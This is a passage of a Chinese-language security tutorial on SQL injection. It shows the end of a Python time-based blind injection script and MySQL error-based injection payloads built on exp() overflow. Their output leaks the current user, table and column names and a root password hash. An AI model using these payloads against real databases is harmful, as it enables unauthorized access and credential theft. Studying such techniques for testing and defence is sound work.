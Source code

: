 ```python
            if endTime - startTime > 1:
                # print(chr(asci))
                databaseName = databaseName + chr(asci)
                break
    print('database name is => ', databaseName)


if __name__ == "__main__":
    getDatabaseName()
```

### 报错注入

sql中有很多特殊的函数，如果提供一个错误的输入，会触发一些报错，那么如果这些函数被黑客利用，很有可能会暴漏出来一些敏感的信息，从而导致被攻击。下面我们会列举一些常见的可能会引起攻击的特殊函数。

- `exp()` 这个函数用来返回e的x次方，当x小于709的时候，是可以正确返回的，而如果x大于709就会报错，因为这个函数返回的结果是用double来承载的，而double类型是有范围的，超过这个范围自然会报错。

  ```sql
  select exp(709)
  --8.218407461554972e307
  select exp(710)
  --Data truncation: DOUBLE value is out of range in 'exp(710)'   这里报错了，并且将输入710打印了出来
  ```

  那么这个时候我们就可以思考了，如果这里输入的不是710，而是查询数据库名称、用户等语句，那到时候会不会将数据库名称、用户等暴漏出来呢？实际操作发现在高版本的mysql中是不会的，而低版本是会的。这里测试了8.x版本是不会的，5.4.x是会的。下面列出在5.4.x执行的效果：

  ```sql
   -- select * from(select user())a  这一步会查询出当前用户并作为一个子集
   -- ~这个运算符会将上一步查询到的结果转换成0在取反，得到一个非常大的数字18446744073709551615
   -- 在传递给exp就会报错
   select exp(~(select * from(select user())a));
   --ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from dual)))'  暴露出了用户
  ```

  结合上面的例子，我们看看如何通过这个报错获取到数据库中的用户名密码

  ```sql
  select exp(~(select * from(select table_name from information_schema.tables where table_schema=database() limit 0,1)x));
  --ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'user' from dual)))'  获取到了表名 user
  
  select exp(~(select * from(select column_name from information_schema.columns where table_name='user' limit 0,1)x));
  --ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'User' from dual)))'  一步一步获取user表的列名，拼装出表结构
  
  select exp(~(select * from(select concat_ws(':',id, name, password) from user limit 0,1)x));
  --ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select '1:root:2ecdde3959051d913f61b14579ea136d' from dual)))' 获取到了root用户的密码
  ```
